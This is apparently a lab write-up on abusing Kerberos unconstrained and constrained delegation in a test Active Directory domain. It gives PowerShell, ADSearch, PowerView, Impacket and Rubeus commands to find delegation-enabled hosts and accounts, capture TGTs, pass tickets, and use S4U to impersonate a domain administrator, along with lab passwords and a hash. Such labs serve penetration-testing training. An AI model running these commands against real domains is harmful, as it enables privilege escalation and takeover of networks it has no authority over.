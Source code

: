 
# Scenario

> The lab always requires some domain user credential material or Administrative priviledges on a particular machine. For a particular vulnerability we simply consider the assumptions for individual attacks.

---

# Kerberos Unconstrained Delegation(KUD) - Computer 

Assumption, we have compromised `domuser@red.local` who is a local administrator on the `WEBSRV` machine and the `WEBSRV` machine is `TrustedForDelegation`. 

## Enumeration

1. ADModule

```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll

Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```
![](/docs/assets/images/KUD-1.png)

2. ADSearch

```bash
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```
![](/docs/assets/images/KUD-2.png)

3. PowerView

```powershell
. .\PowerView.ps1

Get-NetComputer -Unconstrained | select dnshostname,samaccountname
```
![](/docs/assets/images/KUD-3.png)

4. Impacket

```bash
findDelegation.py red.local/domuser:'P@ssw0rd1!' -target-domain red.local
```
![](/docs/assets/images/KUD-4.png)

## Exploitation

1. Try listing the C$ on the DC to confirm we don't have administrator privileges on the DC

```bash
dir \\dc01\c$
```
![](/docs/assets/images/KUD-5.png)

2. Run `Rubeus.exe` to view the tickets.

```bash
.\Rubeus.exe triage

klist
```
![](/docs/assets/images/KUD-6.png)
![](/docs/assets/images/KUD-7.png)


3. On websrv run the following to capture TGTs and observe the response in Rubeus

```bash
.\Rubeus.exe monitor /monitorinterval:10 /filteruser:Administrator /nowrap
```

4. Logon to the DC and list the C$ on webserver.

```bash
whoami

hostname

dir \\websrv.red.local\c$
```

![](/docs/assets/images/KUD-8.png)

![](/docs/assets/images/KUD-9.png)


5. Use Rubues.exe ptt module

```bash
.\Rubeus.exe ptt /ticket:<base64-ticket>
klist
```

![](/docs/assets/images/KUD-10.png)

![](/docs/assets/images/KUD-11.png)


6. Try listing the C$ on the DC now to confirm that we have Administrator Credential material.

```
dir \\dc01\c$
```

![](/docs/assets/images/KUD-12.png)

----

# Kerberos Constrained Delegation - User

Assumption here is we have gottent access to the prod_svc account via some means and then we can use it further to abuse constrained delegation.

## Enumeration

1. ADModule

```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
![](/docs/assets/images/KCD-1.png)

2. ADSearch

```bash
.\ADSearch.exe --search "(&(objectCategory=user)(msds-allowedtodelegateto=*))" --attributes samaccountname
```
![](/docs/assets/images/KCD-2.png)

3. PowerView

```powershell
. .\PowerView.ps1

Get-NetUser -TrustedToAuth | select samaccountname,msds-allowedtodelegateto
```
![](/docs/assets/images/KCD-3.png)

4. Impacket

```bash
findDelegation.py red.local/domuser:'P@ssw0rd1!' -target-domain red.local
```
![](/docs/assets/images/KUD-4.png)

## Exploitation

1. Use `Rubeus.exe` to generate the users `rc4` hash

```bash
.\Rubeus.exe hash /user:"prod_svc" /password:"P@ss123!" /domain:"red.local"
```

![](/docs/assets/images/KCD-4.png)

2. Use `Rubues.exe` s4u module to impersonate the Administrator 

```bash
.\Rubeus.exe s4u /domain:"red.local" /user:"prod_svc" /rc4:5AF33376FB21C57A84F3066E7CFBDECC /impersonateuser:"Administrator" /msdsspn:"cifs/dc01" /nowrap /ptt

klist
```

![](/docs/assets/images/KCD-5.png)

![](/docs/assets/images/KCD-6.png)

3. List the `C$` share on the DC.

```bash
dir \\dc01\c$
```
![](/docs/assets/images/KCD-7.png)

---
